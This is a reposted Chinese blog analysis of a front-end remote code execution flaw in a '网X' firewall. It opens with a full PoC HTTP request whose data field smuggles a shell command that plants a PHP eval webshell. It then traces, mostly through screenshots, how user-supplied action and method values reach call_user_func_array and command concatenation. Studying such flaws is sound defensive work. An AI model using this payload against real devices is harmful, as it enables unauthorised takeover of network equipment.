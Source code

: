 > 原文链接: https://www.anquanke.com//post/id/243331 


# 网X防火墙前台RCE


                                阅读量   
                                **180584**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t010a0dc303b8542555.png)](https://p1.ssl.qhimg.com/t010a0dc303b8542555.png)



## 前言

之前看到有关于这个漏洞的信息，于是想着自己在代码层次做一个详细的分析。

POC

```
POST /directdata/direct/router HTTP/1.1
Host: *.*.*.*
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Content-Length: 225


`{`
    "action": "SSLVPN_Resource",
    "method": "deleteImage",
    "data":[`{`
      "data":["/var/www/html/b.txt;echo '&lt;?php @eval($_POST[a]);?&gt;'&gt;/var/www/html/test.php"]
    `}`],
    "type": "rpc",
    "tid": 17
`}`
```

在获取源代码之后，我们直接关注路由信息

`var\www\html\applications\directdata\controllers\DirectController.php`

[![](https://p1.ssl.qhimg.com/t016215ea8e5a1baa39.png)](https://p1.ssl.qhimg.com/t016215ea8e5a1baa39.png)

我们可以看到这个函数中语句并不是很多，调用 `Ext_Direct::run(` 去处理了 request 过来的请求

因为包含了 php 文件 `/applications/Models/Ext/Direct.php` 所以 `Ext_Direct` 来源于此

`var\www\html\applications\Models\Ext\Direct.php`

[![](https://p1.ssl.qhimg.com/t01dd0ba225ca322489.png)](https://p1.ssl.qhimg.com/t01dd0ba225ca322489.png)

我们直接关注其中的 run 方法 发现首先 利用 `Ext_Direct_Request::factory` 对传入的请求进行了处理

var\www\html\applications\Models\Ext\Direct\Request.php

[![](https://p5.ssl.qhimg.com/t0183ac239ef8c5fb50.png)](https://p5.ssl.qhimg.com/t0183ac239ef8c5fb50.png)

对传入的请求首先解码，然后判断是否存在对应的参数，之后返回一个新的类

`var\www\html\applications\Models\Ext\Direct\Request.php#__construct`

[![](https://p5.ssl.qhimg.com/t013742e3233786c375.png)](https://p5.ssl.qhimg.com/t013742e3233786c375.png)

此处注意到在创建新的类的时候，前台传入的 `data` 参数 对应的是 `arguments`

再返回函数 `Ext_Direct::run`

[![](https://p3.ssl.qhimg.com/t01a254e1562dbdc561.png)](https://p3.ssl.qhimg.com/t01a254e1562dbdc561.png)

将 request 的请求处理之后，转换为数组类型，首先判断传入的 `action` 值 ，是否存在这个类，然后 new 一个这样的类；再判断这个类中是否存在`Method` 所对应的方法；最后到达存在漏洞的关键函数`call_user_func_array(array($dao, $r-&gt;getMethod()), $r-&gt;getArguments())`

这个函数如果全部 request 的相关参数的表示的话 应该是 `call_user_func_array(array(action, Method), data)` 就是以 data 为参数值，调用 action 类中的 Method 方法

根据公开的 POC 找到函数位置

`var\www\html\applications\Models\SSLVPN\Resource.php`

[![](https://p4.ssl.qhimg.com/t017609db3dde3e1d99.png)](https://p4.ssl.qhimg.com/t017609db3dde3e1d99.png)

直接从参数 `$params` 中提取出 data 部分，拼接到 `$cmd`

[![](https://p5.ssl.qhimg.com/t01ccb04360d9542211.png)](https://p5.ssl.qhimg.com/t01ccb04360d9542211.png)

存在回调函数的话，就可以任意调用任何一个类当中的任何方法

`var\www\html\applications\Models\System\PostSignature.php#getMd5sum`

[![](https://p3.ssl.qhimg.com/t01806b19f345aee3cb.png)](https://p3.ssl.qhimg.com/t01806b19f345aee3cb.png)

[![](https://p2.ssl.qhimg.com/t01a36eaa18f8531f65.png)](https://p2.ssl.qhimg.com/t01a36eaa18f8531f65.png)
